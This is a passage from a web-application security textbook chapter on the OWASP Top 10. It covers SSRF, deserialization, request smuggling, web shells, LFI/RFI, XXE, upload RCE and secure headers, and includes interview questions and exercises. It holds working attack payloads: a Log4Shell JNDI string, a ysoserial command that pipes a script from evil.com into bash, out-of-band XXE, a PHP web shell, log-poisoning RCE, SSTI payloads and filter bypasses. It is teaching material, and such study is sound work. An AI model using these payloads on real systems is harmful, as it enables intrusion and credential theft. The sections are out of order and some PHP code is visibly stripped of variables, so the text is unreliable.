| Sequential Identifiers | Auto-increment IDs without access control | IDOR by incrementing ID |

### Defense


- Threat modeling (STRIDE, PASTA) during design phase
- Rate limiting by default on all endpoints
- Never trust client-side data
- Use UUIDs instead of sequential IDs
- Authorization at every layer, not just UI
**Risk:** High | **Complexity:** Medium | **OWASP Score:** 6.0
---

## 20. Security Misconfiguration (A05)

**Real-World Analogy:** A bank vault with the combination still set to 0000.
### Common Misconfigurations


| Misconfiguration | Risk | Detection |

|-----------------|------|-----------|

| Default credentials | Full admin access | Check common passwords |

| Directory listing enabled | File enumeration | Browse /, /uploads, /backup |

| Verbose error messages | Information disclosure | Trigger 500 error |

| Unnecessary services open | Increased attack surface | Port scan |

| Missing security headers | XSS, clickjacking | SecurityHeaders.com |

| CORS misconfiguration | Cross-origin data theft | Access-Control-Allow-Origin: * |

### Secure Hardening Checklist


```text
 Remove default accounts and passwords
 Disable directory listing
 Configure custom error pages
 Set restrictive file permissions
 Enable security headers
 Restrict CORS to specific origins
 Disable unused HTTP methods (PUT, DELETE, TRACE)
 Enforce HTTPS with HSTS
 Regular configuration audits

```

**Risk:** High | **Complexity:** Low | **OWASP Score:** 5.5
---

## 21. Vulnerable Components (A06)

**Real-World Analogy:** Building a house on a cracked foundation.
### Attack Vector


1. Identify version: curl -H "X-Api-Version: 1.0" http://target.com
2. Match to CVE: CVE-2021-44228 (Log4Shell) for Log4j 2.0-2.14.1
3. Exploit: ${jndi:ldap://evil.com/a} in User-Agent header
4. RCE achieved on vulnerable server
### SBOM (Software Bill of Materials) Example


```json
{
    "name": "myapp",
    "version": "1.0.0",
    "dependencies": [
        {"name": "log4j", "version": "2.14.0", "cve": "CVE-2021-44228"},
        {"name": "spring-core", "version": "5.3.0", "cve": null}
    ]
}

```

### Mitigation


- Maintain SBOM for all projects
- Run npm audit, mvn dependency-check, or OWASP Dependency-Check
- Update dependencies regularly
- Use virtual patching via WAF for known CVEs
- Subscribe to CVE feeds for critical libraries
**Risk:** High | **Complexity:** Medium | **OWASP Score:** 6.0
---

## 22. Identification & Auth Failures (A07)

**Real-World Analogy:** A door lock that accepts any key.
### Common Failures


| Failure | Example | Exploit |

|---------|---------|---------|

| Weak passwords | No complexity requirements | Brute force, credential stuffing |

| No account lockout | Unlimited login attempts | Hydra brute force |

| Weak reset flow | Reset token in email, no expiry | Token interception |

| Session fixation | Server accepts pre-set session ID | Hijack by injecting session cookie |

| Missing MFA | Password-only login | Credential stuffing |

| Verbose login messages | "User not found" vs "Wrong password" | Username enumeration |

| JWT issues | Weak secret, long expiry, alg=none | Token forge/replay |

### Session Management


```java
// GOOD: Secure session attributes
Cookie sessionCookie = new Cookie("SESSIONID", UUID.randomUUID().toString());
sessionCookie.setHttpOnly(true);
sessionCookie.setSecure(true);
sessionCookie.setPath("/");
sessionCookie.setMaxAge(3600);       // 1 hour expiry
response.addCookie(sessionCookie);

```

### Secure Authentication Code


```java
@PostMapping("/login")
public ResponseEntity<?> login(@RequestBody LoginRequest req, HttpServletRequest request) {
    String ip = request.getRemoteAddr();
    if (loginAttemptService.isBlocked(ip)) {
        return ResponseEntity.status(429).body("Too many attempts");
    }
    User user = userRepo.findByUsername(req.username());
    if (user == null || !BCrypt.checkpw(req.password(), user.getPasswordHash())) {
        loginAttemptService.recordFailure(ip);
        return ResponseEntity.status(401).body("Invalid credentials");
    }
    loginAttemptService.reset(ip);
    String token = jwtService.generateToken(user);
    return ResponseEntity.ok(new AuthResponse(token));
}

```

**Risk:** High | **Complexity:** Medium | **OWASP Score:** 6.5
---

## 23. Data Integrity Failures (A08)

**Real-World Analogy:** Ordering medicine from a website that does not verify the pills are genuine.
### Integrity Through SRI


```html
<!-- Subresource Integrity → browser verifies hash before executing -->
<script src="https://cdn.example.com/script.js"
        integrity="sha384-oVuMAfCqT81bP+7GX7wF1kCTMGxM+Ewp0f0c4pL3cRz+8XxPpD+WvUo6CqA+Hj"
        crossorigin="anonymous"></script>

```

**Risk:** Medium | **Complexity:** Medium | **OWASP Score:** 5.5
---

## 24. Security Logging & Monitoring (A09)

**Real-World Analogy:** A bank with no cameras or alarms.
### What to Log


| Event | Example | Log Level |

|-------|---------|-----------|

| Authentication success/failure | "User admin logged in from 10.0.0.1" | INFO/WARN |

| Authorization failures | "403 on /api/admin by user=12" | WARN |

| Input validation errors | "XSS attempt blocked on /search" | WARN |

| Privilege changes | "User promoted to admin by 15" | INFO |

| Data exports | "10K records exported by user=5" | INFO |

| Error stack traces | "NullPointerException at UserController:42" | ERROR |

### What NOT to Log


- Passwords, secrets, tokens, credit card numbers
- Full request bodies for sensitive endpoints
- Session IDs in logs (use hashed identifiers)
### Secure Logging Code


```java
@Aspect
@Component
public class SecurityLoggingAspect {
    private static final Logger log = LoggerFactory.getLogger("SecurityAudit");
    @AfterReturning("@annotation(Audited)")
    public void logSuccess(JoinPoint jp) {
        log.info("User {} performed {} on {}",
            SecurityContextHolder.getContext().getAuthentication().getName(),
            jp.getSignature().getName(),
            jp.getArgs());
    }
    @AfterThrowing(pointcut = "@annotation(Audited)", throwing = "e")
    public void logFailure(JoinPoint jp, Exception e) {
        log.warn("Security violation: {} failed: {}",
            jp.getSignature().getName(), e.getMessage());
    }
}

```

### Incident Response Time


```text
Detection → Analysis → Containment → Eradication → Recovery → Postmortem
Industry benchmarks:
- Mean Time to Detect (MTTD): 207 days (IBM 2023)
- Mean Time to Contain (MTTC): 73 days
- Target MTTD: <24 hours (with proper logging)
- Target MTTC: <48 hours

```

**Risk:** Medium | **Complexity:** Medium | **OWASP Score:** 4.5
---

## 25. Applications in Real Systems

### E-Commerce (Amazon, eBay)


| Vulnerability | Impact |

|--------------|--------|

| IDOR | Access another user's order history |

| XSS (stored) | Hijack admin sessions, modify prices |

| CSRF | Unauthorized purchases, address changes |

| SSRF | Probe internal AWS metadata |

### Banking (PayPal, Stripe)


| Vulnerability | Impact |

|--------------|--------|

| SQLi | Extract account balances, transaction history |

| CSRF | Unauthorized transfers |

| Insecure Deserialization | RCE on payment processing servers |

| JWT manipulation | Bypass authentication, escalate privileges |

### Healthcare (Patient Portals)


| Vulnerability | Impact |

|--------------|--------|

| Broken Access Control | View other patients' medical records |

| XXE | Read PHI from XML-parsing systems |

| SSRF | Internal network recon, data extraction |

### Social Media (Facebook, Twitter)


| Vulnerability | Impact |

|--------------|--------|

| XSS (DOM-based) | Account takeover, DM reading |

| CSRF | Unauthorized posts, follow/like manipulation |

| Open Redirect | Phishing campaigns |

### Cloud Platforms (AWS, GCP, Azure)


| Vulnerability | Impact |

|--------------|--------|

| SSRF | Metadata service → IAM credential theft |

| Broken Access Control | Cross-account resource access |

| Security Misconfiguration | Public S3 buckets, open security groups |

---

## 26. Interview Corner

### Q1: What is the OWASP Top 10 and why is it important?


**Answer:** The OWASP Top 10 is a consensus list of the most critical web application security risks, updated every 3-4 years. It provides a standardized framework for prioritizing security efforts. The 2021 edition introduced risk scores and categorized vulnerabilities by root cause. It gives development and security teams a common language and a ranked starting point for security programs.
### Q2: Explain SQL Injection and how to prevent it.


**Answer:** SQL Injection occurs when user input is concatenated into SQL queries as executable code rather than data. An attacker inputs `OR 1=1` to bypass authentication or `UNION SELECT` to extract data. Prevention: always use parameterized queries/prepared statements, apply least-privilege DB permissions, and never concatenate user input into SQL strings.
### Q3: What is the difference between Reflected, Stored, and DOM-based XSS?


**Answer:** Reflected XSS: payload comes from the current HTTP request (typically URL), echoed by the server without encoding. Stored XSS: payload stored on the server (database, comment, profile) and served to all visitors → most dangerous. DOM-based XSS: vulnerability exists solely in client-side JavaScript → server never sees the payload. All three execute in the victim's browser context.
### Q4: How does Content Security Policy (CSP) prevent XSS?


**Answer:** CSP is an HTTP header that tells the browser which sources are trusted for scripts, styles, images, etc. `script-src 'self'` blocks all inline scripts and external scripts from untrusted origins. With a nonce-based CSP, only script tags with the matching nonce attribute execute. CSP acts as a powerful defense-in-depth layer.
### Q5: What is CSRF and how do you prevent it?


**Answer:** Cross-Site Request Forgery tricks an authenticated user into performing unintended actions by crafting a request from another site. Browsers automatically include cookies, so the server sees a valid authenticated request. Prevention: (1) Anti-CSRF tokens, (2) SameSite cookies, (3) Custom headers, (4) Origin/Referer validation.
### Q6: What is SSRF and what is the impact?


**Answer:** Server-Side Request Forgery allows an attacker to make the server send requests to arbitrary URLs. Impact: read cloud metadata (IAM credentials), access internal services behind firewalls, port-scan internal networks. The most famous example is the 2019 Capital One breach where SSRF led to 100M records stolen.
### Q7: Explain the difference between authentication and authorization.


**Answer:** Authentication verifies identity ("who you are"). Authorization verifies permissions ("what you can do"). A common vulnerability is broken access control where authentication is correct but authorization is missing. OWASP A01 (Broken Access Control) focuses on authorization failures.
### Q8: What is XXE and how does it work?


**Answer:** XML External Entity injection exploits XML parsers that process external entities. The attacker defines an entity that reads local files, makes HTTP requests, or causes DoS. Prevention: disable DTD processing entirely in XML parsers. Better: use JSON instead of XML.
### Q9: What is the Log4Shell vulnerability?


**Answer:** CVE-2021-44228 (Log4Shell) is an RCE in Apache Log4j 2.x. When user-controlled data is logged, Log4j processes JNDI lookups like `${jndi:ldap://attacker.com/a}`, loading remote code. Impact: hundreds of millions of devices affected. This highlights OWASP A06 (Vulnerable Components).
### Q10: How does HTTPS protect against MITM attacks?


**Answer:** HTTPS uses TLS to provide: (1) Encryption → data is encrypted so eavesdroppers cannot read it. (2) Authentication → server presents a certificate signed by a trusted CA. (3) Integrity → TLS MAC ensures data was not modified in transit.
### Q11: What is deserialization attack and how does ysoserial work?


**Answer:** Deserialization attacks exploit applications that deserialize untrusted data. Java's ObjectInputStream.readObject() can execute arbitrary code if the serialized data contains a "gadget chain". ysoserial generates these gadget chains for common libraries. Prevention: never deserialize untrusted data, use JSON instead.
### Q12: What is HTTP Request Smuggling?


**Answer:** HTTP Request Smuggling exploits discrepancies between front-end and back-end servers in parsing Content-Length and Transfer-Encoding headers. An attacker crafts an ambiguous request that the front-end interprets as one request but the back-end sees as two. Fix: consistent parsing, reject ambiguous requests, use HTTP/2.
### Q13: What is the difference between WAF and RASP?


**Answer:** WAF operates at the network edge, inspecting HTTP requests using signatures. It blocks known attack patterns but can be bypassed. RASP runs inside the application, intercepting actual code execution. It sees parsed, normalized data → harder to bypass. RASP blocks both known and unknown attacks but requires agent integration.
### Q14: How do you test for SSTI?


**Answer:** Inject template expressions and observe the response. Test: `{{7*7}}` → if response contains "49", SSTI confirmed. For Jinja2: `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`. For Freemarker: `<#assign ex='freemarker.template.utility.Execute'?new()>${ex('id')}`.
### Q15: What is a bug bounty program and how do you approach it?


**Answer:** A bug bounty program offers rewards for finding security vulnerabilities. Approach: (1) Recon → enumerate subdomains, endpoints, tech stack. (2) Automated scanning → run tools with throttle. (3) Manual testing → focus on logic flaws. (4) Exploitation → prove impact without damage. (5) Report → clear, reproducible steps with PoC. Top categories: XSS, IDOR, SSRF.
---

## 27. Summary

### Key Mitigation Matrix


| Attack | Primary Defense | Secondary Defense |

|--------|----------------|-------------------|

| SQLi | Parameterized queries | WAF, least-privilege DB |

| XSS | Output encoding | CSP, HttpOnly cookies |

| CSRF | Anti-CSRF token | SameSite cookie |

| SSRF | URL allowlist | Network segmentation |

| XXE | Disable DTD | Use JSON |

| LFI/RFI | Path allowlist | Disable allow_url_include |

### Core Takeaways


- OWASP Top 10 (2021) → ten critical web risks ranked by exploitability, prevalence, and impact
- Injection (A03) → separate data from commands with parameterized queries
- XSS → context-aware output encoding + CSP as defense-in-depth
- CSRF → anti-CSRF tokens + SameSite cookies for all state-changing requests
- SSRF → URL allowlists + block internal IP ranges
- Secure Headers → CSP, HSTS, XFO, X-Content-Type-Options create browser-enforced defense layers
- Deserialization → never deserialize untrusted data; use JSON with type validation
- File Upload → validate type, rename files, store outside webroot
- Bug Bounty → recon, exploit, report with clear PoC
- Case Studies → Equifax (unpatched Struts), GitHub (memcached amplification), Facebook (SSRF + DNS rebinding), British Airways (third-party JS skimmer)
### Attack Comparison Table


| Attack | Root Cause | Standard Prevention | Advanced Prevention |

|--------|------------|-------------------|-------------------|

| SQLi | No data/command separation | Parameterized queries | ORM, WAF |

| XSS | Unsafe output rendering | Context-aware encoding | CSP, DOMPurify |

| CSRF | Automatic cookie sending | Anti-CSRF token | SameSite=Strict |

| SSRF | Unrestricted URL fetching | URL allowlist | Network segmentation |

| XXE | XML entity processing | Disable DTD | Use JSON |

| Deserialization | Untrusted object reconstruction | Type validation | Avoid native serialization |

---

## Practical Takeaways

| Takeaway | Application |
|----------|-------------|
| OWASP Top 10 Prioritization | Focus on A01 (Broken Access Control), A03 (Injection), and A07 (Auth Failures) — these have the highest exploitability and prevalence |
| Injection Prevention | Always use parameterized queries for SQL, validate input types for NoSQL, avoid shell execution with user input, escape LDAP filters |
| XSS Defense | Apply context-aware output encoding (HTML entity, JavaScript, CSS, URL), implement CSP with nonces, use HttpOnly cookies for session tokens |
| CSRF Protection | Use anti-CSRF tokens for all state-changing requests, set SameSite=Lax or Strict on cookies, validate Origin/Referer headers |
| SSRF Mitigation | Block metadata endpoints (169.254.169.254), validate resolved IPs (not just domains), use URL allowlists, enforce IMDSv2 |
| Secure Headers & Configuration | Set CSP, HSTS, X-Frame-Options, X-Content-Type-Options; disable directory listing, verbose errors, and unused HTTP methods |
| Bug Bounty Methodology | Follow recon → exploit → report workflow; use automated scanners for low-hanging fruit and manual testing for logic flaws |

---

## Summary

Web application security addresses vulnerabilities that arise from the fundamental nature of HTTP, browser-based execution, and the complexity of modern web stacks. This chapter covered the OWASP Top 10 (2021), with deep dives into the most exploited categories: broken access control (IDOR), injection (SQLi, XSS, CSRF, SSRF, XXE), and cryptographic failures (JWT flaws, weak TLS). The importance of defense-in-depth was illustrated through layered protections — WAF, CSP, HSTS, CORS configuration, input validation, parameterized queries, and client-side sanitization. Real-world breaches (Equifax, GitHub Stars, SolarWinds, Atlassian) demonstrated that even well-funded organizations fall victim to preventable vulnerabilities when secure development practices are not followed. Key takeaways include: always use parameterized queries for database access, implement CSP with strict directives, treat all user input as untrusted, use SameSite cookies to mitigate CSRF, and conduct regular dependency scans for known vulnerabilities. The TypeScript implementations provided working examples of CSP generators, SQLi scanners, session analyzers, and SSRF detectors that can be integrated into security testing pipelines.

## Exercises

### Review Questions

1. Explain the difference between IDOR (A01) and CSRF in terms of what they exploit.

<details>
<summary>Solution</summary>
IDOR exploits missing authorization checks — the attacker directly accesses resources they should not have access to (e.g., changing a user ID in a URL). CSRF exploits the browser's automatic inclusion of credentials — the attacker tricks the user's browser into making an unwanted request to an authenticated site.
</details>

2. Why does CSP with `script-src 'self'` alone not prevent all XSS attacks?

<details>
<summary>Solution</summary>
`script-src 'self'` only blocks externally hosted scripts. It does not prevent: 1) Stored XSS where attacker injects inline `<script>` tags (inline scripts are allowed by `'self'`). 2) DOM-based XSS from existing JavaScript. 3) Scripts from JSONP endpoints on the same origin. Must also specify `'unsafe-inline'` is not present, and use nonce/hash for inline scripts.
</details>

3. How does a JWT "alg: none" attack work and how do you prevent it?

<details>
<summary>Solution</summary>
The attacker modifies the JWT header to `"alg":"none"` and removes the signature. Servers that accept "none" algorithms will trust the token without verifying a signature. Prevention: reject "none" algorithm in JWT library configuration, always validate signature, and use a whitelist of allowed algorithms (e.g., only HS256 or RS256).
</details>

4. What is the difference between blind SQLi and out-of-band SQLi?

<details>
<summary>Solution</summary>
Blind SQLi: no visible error/output — attacker infers truth via boolean responses (content differs) or time delays (SLEEP()). Out-of-band SQLi: attacker uses a separate channel (DNS lookup, HTTP request) to exfiltrate data. OOB is used when the response is not directly visible and the database can initiate network connections.
</details>

5. Why is stored XSS considered more dangerous than reflected XSS?

<details>
<summary>Solution</summary>
Stored XSS persists in the database and executes every time the page is viewed — affecting all users without requiring a crafted link. Reflected XSS only affects the user who clicks a malicious link. Stored XSS can target admins (if viewing in admin panel), leading to account takeover, while reflected typically targets end users.
</details>
### Application Problems

1. Write a Java Spring Boot endpoint that securely accepts and returns a user profile with proper access control (no IDOR).

<details>
<summary>Solution</summary>
```java
@GetMapping("/profile/{id}")
public UserProfile getProfile(@PathVariable String id, Authentication auth) {
  String currentUserId = auth.getName();
  if (!id.equals(currentUserId)) throw new AccessDeniedException("IDOR blocked");
  return userRepo.findById(id).orElseThrow();
}
```
Always derive the user identity from the authentication context, not from request parameters.
</details>

2. Design a CSP header for a site that loads scripts from a CDN, styles from another CDN, and needs to run one inline script. Use the nonce approach.

<details>
<summary>Solution</summary>
```
Content-Security-Policy: default-src 'self';
  script-src 'nonce-abc123' https://cdn.scripts.com 'strict-dynamic';
  style-src 'self' https://cdn.styles.com;
  base-uri 'none'; object-src 'none'
```
The inline script tag gets `<script nonce="abc123">` and `strict-dynamic` propagates trust to scripts it loads.
</details>

3. Write a Python Flask middleware that validates all incoming XML to prevent XXE attacks.

<details>
<summary>Solution</summary>
```python
from lxml import etree
def xxe_safe_parse(xml_string):
  parser = etree.XMLParser(no_network=True, dtd_validation=False,
    resolve_entities=False, load_dtd=False)
  return etree.fromstring(xml_string, parser)
```
Disables all external entity resolution, DTD loading, and network access.
</details>

### Challenge Problem

Design a complete security architecture for an e-commerce application considering: OWASP Top 10, WAF rules, CSP, SSRF prevention, session management, file upload restrictions, and third-party script integrity. Include a threat model using STRIDE.

<details>
<summary>Solution</summary>
Threat model (STRIDE): Spoofing → MFA + FIDO2. Tampering → signed API payloads + SRI for CDN scripts. Repudiation → detailed audit logging. Info disclosure → TLS 1.3 + AES-256 at rest + CSP. DoS → rate limiting + WAF + CDN. Elevation → RBAC + server-side auth checks.

Architecture: WAF (ModSecurity with OWASP CRS) in front. CSP with nonces. SSRF prevention via URL allowlist + block private IPs. Session: HttpOnly Secure SameSite=Strict cookies, 15-min idle timeout. File upload: magic byte validation + UUID rename + scan with ClamAV. SRI: integrity hashes on all third-party resources.
</details>
## Chapter Quiz

| # | Question | A | B | C | D | Answer |
|---|----------|---|---|---|---|--------|
| 1 | Which OWASP Top 10 (2021) category has the highest exploitability score? | A01 → Broken Access Control | A03 → Injection | A06 → Vulnerable Components | A09 → Logging & Monitoring | B |
| 2 | A JWT token with header `{"alg":"none"}` is vulnerable to: | SQLi | Signature bypass | XSS | CSRF | B |
| 3 | The Equifax 2017 breach was caused by: | SQLi | Apache Struts OGNL injection | Phishing | SSRF | B |
| 4 | SameSite=Lax cookie attribute protects against: | SQLi | XSS | CSRF | SSRF | C |
| 5 | The main difference between WAF and RASP is: | WAF is signature-based, RASP is behavioral | WAF runs inside the app, RASP at the edge | WAF can block zero-days, RASP cannot | RASP is always free | A |
## 6. Server-Side Request Forgery (SSRF)

**Real-World Analogy:** Calling a hotel front desk and asking them to check on something in another room.
**Technical Explanation:** Attacker tricks the server into making requests to internal resources that the server can access but the attacker cannot directly.
### Attack Steps


1. Application fetches a document URL based on user input
2. Attacker changes URL to internal metadata service endpoint
3. Server fetches and returns IAM credentials
#### Vulnerable Code

`python
# BAD: No URL validation

@app.route(""/"")
def fetch_url():
    url = request.args.get(""url"")
    resp = requests.get(url)
    return resp.text
`
#### SSRF Targets Table

| Target | URL | Sensitive Data |

|--------|-----|----------------|

| AWS Metadata | http://169.254.169.254/latest/meta-data/ | IAM credentials |

| GCP Metadata | http://metadata.google.internal/computeMetadata/v1/ | Service account tokens |

| Azure Metadata | http://169.254.169.254/metadata/instance | Managed identity tokens |

| Internal DB | http://localhost:5432/ | Database access |

| Internal API | http://internal-admin:8080/ | Admin interfaces |

#### Common SSRF Bypasses

`	ext
Blocked: 169.254.169.254
Bypass via hex: http://0x7f000001/
Bypass via decimal: http://2130706433/
Bypass via octal: http://0177.0.0.1/
Bypass via IPv6: http://[::ffff:169.254.169.254]/
Bypass via DNS rebinding: http://169.254.169.254.nip.io/
Bypass via localhost: http://localhost/
`
#### Secure Code

`python
import re
from urllib.parse import urlparse
ALLOWED_DOMAINS = {""example.com"", ""cdn.trusted.com""}
@app.route(""/fetch"")
def fetch_url():
    url = request.args.get(""url"")
    parsed = urlparse(url)
    if re.match(r""^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$"", parsed.hostname):
        return ""Blocked"", 403
    if parsed.hostname in (""localhost"", ""127.0.0.1"", ""0.0.0.0"", ""[::1]""):
        return ""Blocked"", 403
    if parsed.hostname not in ALLOWED_DOMAINS:
        return ""Blocked"", 403
    resp = requests.get(url, timeout=5)
    return resp.text
`
### SSRF Types


| Type | Behavior | Blind? | Exfiltration Method |

|------|----------|--------|---------------------|

| Basic (reflected) | Response returned to attacker | No | Direct in response |

| Blind | No response body returned | Yes | Out-of-band (DNS, HTTP) |

| Partial | Only status/time reflected | Semi | Boolean/time-based |

**Risk:** High | **Complexity:** Medium | **OWASP Score:** 5.5
## 7. Insecure Deserialization (A08)

**Real-World Analogy:** Accepting a sealed package from a stranger and opening it without checking who sent it.
**Technical Explanation:** Untrusted data is deserialized into objects. Attackers craft malicious serialized objects that execute arbitrary code when deserialized.
### Attack Steps


1. Application deserializes cookie/session data via readObject()
2. Attacker crafts a gadget chain targeting Runtime.exec()
3. Upon deserialization, arbitrary code executes
#### Vulnerable Code

`java
// BAD: Unsafe deserialization
public Object deserialize(byte[] data) {
    ByteArrayInputStream bis = new ByteArrayInputStream(data);
    ObjectInputStream ois = new ObjectInputStream(bis);
    return ois.readObject();
}
`
#### ysoserial Payload Example

`ash
# Generate a CommonsCollections1 gadget chain

java -jar ysoserial.jar CommonsCollections1 ""curl http://evil.com/shell.sh | bash"" > payload.bin
# Send to vulnerable endpoint

curl -X POST --data-binary @payload.bin http://victim.com/deserialize
`
#### Secure Code

`java
// GOOD: JSON with type validation
public &lt;T> T safeDeserialize(String json, Class<T&gt; type) {
    ObjectMapper mapper = new ObjectMapper();
    mapper.activateDefaultTyping(
        BasicPolymorphicTypeValidator.builder()
            .allowIfBaseType(type)
            .build()
    );
    return mapper.readValue(json, type);
}
// BEST: Avoid deserializing untrusted data entirely
// Use stateless JWT or session IDs stored server-side
`
**Risk:** Critical | **Complexity:** High | **OWASP Score:** 5.5
---

## 8. HTTP Request Smuggling

**Real-World Analogy:** Two postmen reading the same letter differently - one thinks it ends here, the other reads on.
**Technical Explanation:** Discrepancy between front-end (proxy/load balancer) and back-end in parsing Content-Length vs. Transfer-Encoding headers allows attacker to smuggle requests.
### Attack Steps


1. Front-end uses Content-Length, back-end uses Transfer-Encoding
2. Attacker crafts ambiguous request
3. Front-end forwards entire body, back-end sees second request
4. Smuggled request accesses internal endpoints
### CL.TE Exploit Example


`http
POST / HTTP/1.1
Host: example.com
Content-Length: 29
Transfer-Encoding: chunked
0
GET /404 HTTP/1.1
X:
`
### Detection


`ash
curl -k ""https://example.com/"" -H ""Transfer-Encoding: chunked"" -d ""0\r\n\r\nGET /admin HTTP/1.1\r\nHost: localhost\r\n\r\n""
`
### Mitigation


- Consistent parsing between front-end and back-end
- Reject ambiguous requests (both Content-Length and Transfer-Encoding)
- Use HTTP/2 (eliminates header ambiguity)
- Disable reuse of back-end connections
**Risk:** High | **Complexity:** High | **OWASP Score:** 6.0
---

## 9. Open Redirect

**Real-World Analogy:** A signpost that points wherever the attacker tells it to.
#### Vulnerable Code

`java
@GetMapping(""/redirect"")
public String redirect(@RequestParam String url) {
    return ""redirect:"" + url;
}
`
#### Exploit

`	ext
http://victim.com/redirect?url=http://evil.com/phishing
`
#### Secure Code

`java
@GetMapping(""/redirect"")
public String redirect(@RequestParam String path) {
    Set&lt;String&gt; allowed = Set.of(""/dashboard"", ""/profile"", ""/settings"");
    if (!allowed.contains(path)) {
        return ""redirect:/error"";
    }
    return ""redirect:"" + path;
}
`
**Risk:** Medium | **Complexity:** Low
---

## 10. Web Shells

**Real-World Analogy:** A janitor who gives anyone with the right key access to the building main control room.
#### Web Shell Example (PHP)

`php
<?php system([""cmd""]); ?>
`
Uploaded via file upload vulnerability, then accessed:
`http
GET /uploads/shell.php?cmd=cat%20/etc/passwd HTTP/1.1
`
#### Detection

- Monitor for unusual processes spawned by web server
- File integrity monitoring in upload directories
- WAF rules blocking system(), exec(), passthru() in requested files
**Risk:** Critical | **Complexity:** Low
## 11. LFI / RFI

### Local File Inclusion (LFI)


**Real-World Analogy:** Asking a librarian to read any book from the shelves - even restricted ones.
#### Vulnerable Code

`php
<?php
 = [""page""];
include( . "".php"");
?>
`
#### Exploit

`	ext
http://victim.com/index.php?page=../../../../etc/passwd
`
#### LFI to RCE via Log Poisoning

Steps:
1. Send request with PHP payload in User-Agent header
2. Payload written to /var/log/apache2/access.log
3. Include the log via LFI parameter
4. PHP code executes from log entries
`ash
# Poison the log

curl -H ""User-Agent: &lt;?php system(\['cmd']); ?&gt;"" http://vulnerable.com/
# Include the log

curl ""http://vulnerable.com/index.php?page=../../../var/log/apache2/access.log&cmd=id""
`
#### PHP Wrapper LFI

`	ext
php://filter/convert.base64-encode/resource=config.php
phar://malicious.phar
expect://id
`
### Remote File Inclusion (RFI)


`php
<?php include([""page""]); ?>
`
`	ext
http://victim.com/index.php?page=http://evil.com/shell.txt
`
#### Secure Code

`php
<?php
 = [""home"", ""about"", ""contact""];
 = [""page""];
if (in_array(, )) {
    include(__DIR__ . ""/pages/"" .  . "".php"");
} else {
    include(""error.php"");
}
?>
`
**Risk:** Critical | **Complexity:** Low | **OWASP Score:** 7.5
---

## 12. XML External Entity (XXE)

**Real-World Analogy:** A clerk who processes forms by reading other documents mentioned within them.
**Technical Explanation:** XML parser processes external entities defined in the DTD, allowing file reads, SSRF, and DoS.
### XXE to Read Files


`xml
<?xml version=""1.0"" encoding=""UTF-8""?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM ""file:///etc/passwd"">
]>
<root>&xxe;</root>
`
### XXE to SSRF


`xml
<?xml version=""1.0"" encoding=""UTF-8""?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM ""http://169.254.169.254/latest/meta-data/"">
]>
<root>&xxe;</root>
`
### XXE Blind (Out-of-Band)


`xml
<?xml version=""1.0"" encoding=""UTF-8""?>
<!DOCTYPE foo [
  <!ENTITY %25 xxe SYSTEM ""http://attacker.com/evil.dtd"">
  %25xxe;
]>
<root>&send;</root>
`
### Billion Laughs Attack (DoS)


`xml
<?xml version=""1.0""?>
<!DOCTYPE lolz [
  <!ENTITY lol ""lol"">
  <!ENTITY lol2 ""&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"">
  <!ENTITY lol3 ""&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"">
]>
<root>&lol3;</root>
`
### Vulnerable Code


`java
// BAD: Default XML parser with external entities
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = factory.newDocumentBuilder();
Document doc = builder.parse(new InputSource(request.getInputStream()));
`
### Secure Code


`java
// GOOD: Disable external entities
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature(""http://apache.org/xml/features/disallow-doctype-decl"", true);
factory.setFeature(""http://xml.org/sax/features/external-general-entities"", false);
factory.setFeature(""http://xml.org/sax/features/external-parameter-entities"", false);
`
**Risk:** High | **Complexity:** Medium | **OWASP Score:** 5.5
---

## 13. RCE via File Upload

**Real-World Analogy:** A courier service that accepts packages and executes any executable file inside.
### Attack Steps


1. Application allows profile picture upload
2. Attacker uploads shell.php instead of image.jpg
3. Server stores it in /uploads/shell.php
4. Attacker accesses shell.php?cmd=id
### Bypass Techniques


`	ext
shell.php          -> Extension filter: blocked
shell.php5         -> Not filtered
shell.pHp          -> Case mismatch
shell.php.jpg      -> Double extension
GIF89a + PHP code  -> Magic byte bypass
`
### Secure Code


`java
public String uploadFile(MultipartFile file) {
    String contentType = file.getContentType();
    if (!contentType.equals(""image/jpeg"") && !contentType.equals(""image/png"")) {
        throw new SecurityException(""Only JPEG/PNG allowed"");
    }
    String savedName = UUID.randomUUID() + "".jpg"";
    Path target = Paths.get(""/var/storage/uploads/"", savedName);
    file.transferTo(target);
    return savedName;
}
`
**Risk:** Critical | **Complexity:** Low | **OWASP Score:** 7.5
## 14. Security Headers

### Secure Headers Table


| Header | Syntax | Purpose | Risk if Missing |

|--------|--------|---------|-----------------|

| Content-Security-Policy | default-src 'self' | Prevent XSS and data injection | XSS, data exfiltration |

| Strict-Transport-Security | max-age=31536000; includeSubDomains | Force HTTPS only | SSL strip, MITM |

| X-Frame-Options | DENY or SAMEORIGIN | Prevent clickjacking | UI redress attacks |

| X-Content-Type-Options | nosniff | Prevent MIME-sniffing | Stored XSS via uploads |

| Referrer-Policy | strict-origin-when-cross-origin | Control referrer leakage | Information disclosure |

| Permissions-Policy | geolocation=(), camera=() | Restrict browser APIs | Feature abuse |

| Cache-Control | no-store, no-cache | Prevent sensitive caching | Data cached in shared caches |

| Set-Cookie | HttpOnly; Secure; SameSite=Lax | Protect session cookies | Session theft via XSS |

### CSP In-Depth


```http
# Strict CSP - recommended baseline

Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self'; object-src 'none'; base-uri 'none'; form-action 'self'
# CSP with nonce - for inline scripts

Content-Security-Policy: default-src 'self'; script-src 'nonce-abc123' 'strict-dynamic'
# CSP with hash

Content-Security-Policy: default-src 'self'; script-src 'sha256-abc123...'
# CSP reporting only (test before enforcing)

Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-report

```

### CSP Evaluator


```text
Visit: https://csp-evaluator.withgoogle.com/
Paste your CSP header. The tool scores:
- 100% (no bypasses found)
- 75-99% (minor risks present)
- below 75% (likely bypassable)

```

### HTTPS Configuration (nginx)


```nginx
server {
    listen 443 ssl http2;
    ssl_certificate /etc/ssl/certs/server.crt;
    ssl_certificate_key /etc/ssl/private/server.key;
    ssl_protocols TLSv1.2 TLSv1.3;
